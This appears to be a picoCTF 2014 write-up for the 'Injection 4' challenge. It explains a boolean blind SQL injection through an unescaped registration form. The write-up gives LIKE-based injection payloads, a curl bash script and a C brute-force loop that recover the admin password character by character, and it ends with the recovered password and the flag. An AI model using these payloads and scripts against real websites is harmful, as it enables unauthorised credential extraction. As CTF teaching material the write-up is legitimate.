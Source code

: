 Zach: Injection 4 (150 pts)
    
So by just quick inspection of the login script, it’s really clear that everything is SQL escaped, and so there are no real hacks available. Now with the registration feature, my first thought was a hack I’ve done before based on registering a user with the username admin followed by spaces past the varchar max length in the database, with a trailing character. This will be added to the database as just admin, with the password I instituted at registration. It will collide with the original admin on the database. However, if the user doesn’t exist, it echo’s that registration is disabled, so this is impossible.

So since there is no way to hack into the login script, it looks like we need to try and brute force the password. This can be done easily with the registration script because it’s not escaped. We can inject a query that instead of checking for a username, it will check for a password for the user admin, and the page will respond with “Someone has already registered {username}” if it finds one or more matches. This would look like the following in the username field:
    ```admin’ AND password=’{PASSWORD_GUESS}’ OR ‘1’=’2```

Of course, brute forcing this would take ages, but thankfully, SQL has a LIKE operator. This looks like the following:
    ```admin’ AND password LIKE ‘{FRONT_OF_PASS}%” OR ‘1’=’2```

In this operator, the % sign matches any number of characters in it’s place. This allows us to brute force every possible first character until we find the right one. Then every second character, and etc. until we have the whole password to login with. I used curl in a shell script to do this. Then I called the shell script with a C code that did the iteration of different password. Both codes are included below:
    

test_pass.sh:
```
#!/bin/bash
if [[ "$(curl -s -F "username=admin' AND password LIKE '$1%' OR '1'='2" http://web2014.picoctf.com/injection4/register.php)" =~ "Someone" ]]; then
	exit 1;
else
	exit 0;
fi
```

get_pass.c:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

const char* format = "./test_pass.sh '%s'";

int main() {
        char pass[1024], cmd[1080], *p = pass;
        int complete;
        while(1) {
                complete = 0;
                *p = 32;
                *(p+1) = '\0';
                do {
                        if(*p == '%' || *p == '\'') ++(*p);
                        sprintf(cmd, format, pass);
                        //printf("%s, %s, %d, %d\n", cmd, pass, *p, pass[p-pass]);
                        if( system(cmd) ) {
                                complete = 1;
                                break;
                        }

                } while (++(*p) > 0);
                if(complete) {
                        printf("\"%s\"\n", pass);
                } else {
                        printf("Finished.\n");
                        *p = '\0';
                        break;
                }
                ++p;
        }
        return 0;
}
```

The shellcode checks the output of curl to be approximately equal (=~) to “Someone”. If this is true, it exits with 1, else with 0. The c code creates space for the password and the cmd to execute on the shell, with enough room for 1023 characters (one extra byte for the null terminating character). Then, the pointer in the password char[] is iterated through all possible characters until one matches, and then goes to the next character. After no more characters will match, the password has been found and the code terminates. Because it takes some time, the code outputs it’s progress every time a new character is determined. The characters ‘\’’ and ‘%’ are excluded because % has special meaning for SQL (discussed above), and the single quote would terminate the string.

The password obtained from this script: `YOULLNEVERGUESSTHISPASSWORD`

If you login to the site as admin with that password, you receive:
    `whereof_one_cannot_speak_thereof_one_must_be_silent`
